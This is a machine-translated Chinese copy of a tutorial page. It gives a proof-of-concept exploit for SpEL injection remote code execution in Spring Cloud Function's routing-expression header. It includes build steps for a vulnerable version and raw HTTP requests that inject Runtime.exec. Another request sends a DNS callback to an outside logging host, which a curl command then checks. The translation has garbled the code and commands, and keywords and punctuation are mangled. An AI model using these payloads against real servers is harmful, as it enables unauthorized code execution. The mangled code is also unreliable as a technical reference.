


# Spring-Spel-0 day-Poc:Spring-Cloud/Spring-Cloud-function，Spring . Cloud . function . routing-expression

> 原文：<https://kalilinuxtutorials.com/spring-spel-0day-poc/>

**Spring-Spel-0Day-Poc** 是 Spring-cloud/Spring-cloud-function RCE EXP Poc https://github.com/spring-cloud/spring-cloud-function 头

**spring . cloud . function . routing-expression:T(Java . lang . runtime)。getRuntime()。exec(" open-a calculator . app ")**

## 建设

**wget https://github . com/spring-cloud/spring-cloud-function/archive/refs/tags/v 3 . 1 . 6 . zip
unzip v 3 . 1 . 6 . zip
CD spring-cloud-function-3 . 1 . 6
CD spring-cloud-function-samples/function-sample-POJO
mvn 包
java -jar。/target/function-sample-POJO-2 . 0 . 0 . release . jar**

## 获取测试的路径列表

**找到。-名称" *。Java“| xargs-I % cat % | grep-EO '"([^”。\/= > |，:}+)'"'"']{8，})"'|sort -u|sed 's/"//g'**

**…
功能路由器
大写
小写
…**

## poco1

**POST/function router HTTP/1.1
主机:127.0.0.1:8080
用户代理:Mozilla/5.0(Macintosh；英特尔 Mac OS X 10 _ 15 _ 7)apple WebKit/605 . 1 . 15(KHTML，像壁虎一样)版本/15.2 Safari/605.1.15
连接:关闭
spring . cloud . function . routing-expression:T(Java . lang . runtime)。getRuntime()。exec(" open-a/System/Applications/calculator . app ")
Content-Length:5**

## 二氧化碳分压

**POST/function router HTTP/1.1
主机:127.0.0.1:8080
用户代理:Mozilla/5.0(Macintosh；英特尔 Mac OS X 10 _ 15 _ 7)apple WebKit/605 . 1 . 15(KHTML，像壁虎一样)版本/15.2 Safari/605.1.15
连接:关闭
spring . cloud . function . routing-expression:T(Java . net . inet address)。get by name(" random 87535 . rce . 51 pwn . com ")
Content-Length:5
51 pwn**

## 支票

**curl -v -H "用户代理:Mozilla/5.0(Windows NT 6.1；rv:45.0)壁虎/20100101 火狐/45.0“'https://51pwn.com/dnslog？q = random 87535 . rce . 51 pwn . com '**

[**Download**](https://github.com/hktalent/spring-spel-0day-poc)